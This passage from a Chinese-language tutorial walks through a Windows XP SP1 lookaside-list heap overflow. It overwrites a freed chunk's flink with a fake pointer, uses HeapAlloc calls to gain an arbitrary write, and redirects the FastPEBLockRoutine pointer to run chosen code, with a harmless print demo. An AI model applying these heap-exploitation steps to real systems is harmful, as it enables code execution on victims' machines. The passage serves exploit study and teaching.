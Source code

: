把 b free 掉，然后 b 就会被放到 lookaside list 备用。

## 0x05 溢出后覆盖了什么

* * *

覆盖了 b 的 freelist chunk 结构。

（AAAABBBB 覆盖了 Headers，然后\x20\xf0\xfd\x7f 覆盖的是 flink）

![enter image description here](img/img3_u57_jpg.jpg)

## 0x06 溢出后发生了什么

* * *

```
 printf("(+) Allocating chunk B\n");

// A chunk of block size N is allocated (C). Our fake pointer is returned
// from the lookaside list.
 b = HeapAlloc(hHeap,HEAP_ZERO_MEMORY,0x10);
 printf("(+) Allocating chunk C\n");

// set software bp
//    __asm__("int $0x3");

// A second chunk of size N is allocated: our fake pointer is returned
c = HeapAlloc(hHeap,HEAP_ZERO_MEMORY,0x10);

printf("(+) Chunk A=0x00%x\n(+)Chunk B=0x00%x\n(+) Chunk C=0x00%x\n",a,b,c);

```

先是从 lookaside 取回 b （flink 已经被覆盖了），然后再去分配 c ，于是 c 被分配到了 b 的 flink 即我们的虚假指针处，之后就可以实现内存任意写了（写进 c 的内容就是写进虚假指针）

## 0x07 虚假指针指向什么地方

* * *

0x7FFDF000 指向 FastPEBLockRoutine() 地址指针 （XP SP1） 我们覆盖这个地址，这样一旦触发异常，就会去 call 这个地址。

然后我们把 print 函数地址写进去，于是就会去执行 print 函数（显示 Hello，Hello 上面打印的是 print 函数的地址）
